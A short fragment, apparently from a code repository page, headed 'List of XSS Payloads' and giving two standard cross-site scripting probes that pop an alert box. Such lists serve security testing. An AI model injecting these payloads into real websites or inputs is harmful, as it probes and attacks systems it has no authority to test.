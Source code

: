 ### List of XSS Payloads:

```
<img src=x onerror=alert(document.domain)>
<script>alert(1);</script>
```

